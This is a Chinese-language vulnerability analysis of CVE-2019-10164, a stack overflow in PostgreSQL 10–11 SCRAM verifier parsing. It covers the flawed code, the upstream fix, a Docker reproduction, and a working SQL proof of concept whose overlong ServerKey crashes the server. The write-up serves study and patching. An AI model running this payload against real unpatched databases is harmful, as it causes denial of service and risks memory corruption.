



# CVE-2019-10164 CWE-787&121 PostgreSQL DoS

## 漏洞背景

- **PostgreSQL**：PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **verifier 字符串：**在 PostgreSQL 10 引入的 SCRAM-SHA-256 认证机制里，数据库并不是直接保存用户的明文口令，而是保存一个 verifier 字符串，其格式为：`SCRAM-SHA-256$<iterations>:<salt>$<StoredKey>:<ServerKey>`。当客户端认证时，服务端要根据保存的 verifier 来重现口令派生逻辑，检查客户端提供的证明。
- **CWE-787 Out-of-bounds Write：**程序在对内存写入数据时，写入的位置超出了目标缓冲区或对象的边界。这会破坏相邻内存的数据或控制结构，导致程序崩溃、逻辑异常，甚至被攻击者利用覆盖函数返回地址、函数指针等关键区域，从而执行任意代码。常见原因包括边界检查缺失、数组索引错误、长度计算错误等。
- **CWE-121 Stack-based Buffer Overflow：**一类特殊的越界写漏洞，发生在栈上分配的缓冲区（例如局部数组）。当程序将过长的数据写入该缓冲区时，会覆盖栈上的相邻变量、返回地址或栈帧信息。攻击者可借此修改控制流，实现代码执行或提权。

## 漏洞原理

PostgreSQL 在解析 SCRAM-SHA-256 验证字符串时，直接把 Base64 解码结果写入固定大小的栈缓冲区（32 字节），而且在真正得到解码长度之前就错误地做了等长检查（还把布尔值当成长度去预估）。如果攻击者构造了一个 超长的 StoredKey 或 ServerKey Base64 字符串，`pg_b64_decode()` 在写入时就会发生 越界写入栈内存，破坏相邻数据结构，即便后续检查发现长度不对并报错，内存破坏已经发生，从而导致数据库进程崩溃甚至被利用执行任意代码。

## 漏洞定位

分析 PostgreSQL 10.0 源码：

在 src/backend/libpq/auth-scram.c 文件，第 478 行 parse_scram_verifier 函数用于在服务端解析和验证 SCRAM-SHA-256 的口令校验字符串。

并且在第 530 行，把 `strlen(storedkey_str) != SCRAM_KEY_LEN` 的布尔值（0/1）当作 `pg_b64_dec_len()` 的输入，等价于`pg_b64_dec_len(0)` 或 `pg_b64_dec_len(1)`，与真实 `strlen()` 无关，实质上**没有做有效长度预估**。如果攻击者把 Base64 串做得足够长，`pg_b64_decode()` 在写入时就会**越界覆盖栈**，即便紧接着代码检查`decoded_len != SCRAM_KEY_LEN`并报错，但破坏已经发生。

第 537 行在处理`serverkey_str`也是同样的问题。

```c
// auth-scram.c  478 行
static bool parse_scram_verifier(const char *verifier, int *iterations, char **salt,
					 uint8 *stored_key, uint8 *server_key)
{
	// ...

	// ***** 530 行 ********** 直接写到定长缓冲 ********* 漏洞点 ************
	if (pg_b64_dec_len(strlen(storedkey_str) != SCRAM_KEY_LEN))
		goto invalid_verifier;
    // 事后才判长
	decoded_len = pg_b64_decode(storedkey_str, strlen(storedkey_str),
								(char *) stored_key);
	if (decoded_len != SCRAM_KEY_LEN)
		goto invalid_verifier;

    // ***** 537 行 ********** 直接写到定长缓冲 ********* 漏洞点 ************
	if (pg_b64_dec_len(strlen(serverkey_str) != SCRAM_KEY_LEN))
		goto invalid_verifier;
	decoded_len = pg_b64_decode(serverkey_str, strlen(serverkey_str),
								(char *) server_key);
	if (decoded_len != SCRAM_KEY_LEN)
		goto invalid_verifier;

	return true;

invalid_verifier:
	pfree(v);
	*salt = NULL;
	return false;
}
```

## 漏洞修复

先用 `pg_b64_dec_len(strlen(...))` **按需分配临时缓冲区**，再调用 `pg_b64_decode()` 得到 **实际解码长度**；只有当 `decoded_len == SCRAM_KEY_LEN` 时，才 `memcpy()` **拷贝到调用方提供的定长缓冲**，从而避免**基于堆栈的缓冲区溢出**。

```c
// ...
decoded_stored_buf = palloc(pg_b64_dec_len(strlen(storedkey_str)));

decoded_len = pg_b64_decode(storedkey_str, strlen(storedkey_str),
                            decoded_stored_buf);
if (decoded_len != SCRAM_KEY_LEN)
    goto invalid_verifier;
memcpy(stored_key, decoded_stored_buf, SCRAM_KEY_LEN);

decoded_server_buf = palloc(pg_b64_dec_len(strlen(serverkey_str)));

decoded_len = pg_b64_decode(serverkey_str, strlen(serverkey_str),
                            decoded_server_buf);
if (decoded_len != SCRAM_KEY_LEN)
    goto invalid_verifier;
memcpy(server_key, decoded_server_buf, SCRAM_KEY_LEN);
// ...
```

## 影响范围

**影响版本：**PostgreSQL：

-  10.0 to 10.9
-  11.0 to 11.4

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 10.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD     Base Score:8.8 HIGH    Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:H
CNA:Red Hat,Inc.    Base Score:7.5 HIGH    Vector:CVSS:3.0/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:10.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 并运行 PoC 文件，可以看到执行后连接关闭且自动退出。

   ```bash
   docker exec -it postgres-10.0 psql -U postgres -d test -f CVE-2019-10164-PoC.sql
   ```

   

2. 查看容器日志，可以看到 PostgreSQL 遭遇了段错误（signal 11），导致崩溃。

   ```bash
   docker logs postgres-10.0
   ```

   

## PoC分析

```sql
CREATE ROLE regress_passwd_sha_len2 PASSWORD
'SCRAM-SHA-256$4096:A6xHKoH/494E941doaPOYg==$Ky+A30sewHIH3VHQLRN9vYsuzlgNyGNKCh37dy96Rqw=:COPdlNiIkrsacU5QoxydEuOH6e/KfiipeETb/bPw8ZIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=';
```

PoC 代码创建了一个角色，并把 PASSWORD 字段直接设置为一个完整的 SCRAM verifier 字符串。把 `ServerKey` 的 Base64 串恶意拉长，解码后的长度 > 32，写入就会越界覆盖栈上的相邻内存。使得进程崩溃。

## 参考链接

[NVD - CVE-2019-10164](https://nvd.nist.gov/vuln/detail/CVE-2019-10164#range-14815290)

[Fix buffer overflow when parsing SCRAM verifiers in backend · postgres/postgres@09ec55b](https://github.com/postgres/postgres/commit/09ec55b933091cb5b0af99978718cb3d289c71b6#diff-999cd3e9853776a9ce8c01610796bb1325360f1bee7e6c76fb73be8f240ff7bc)
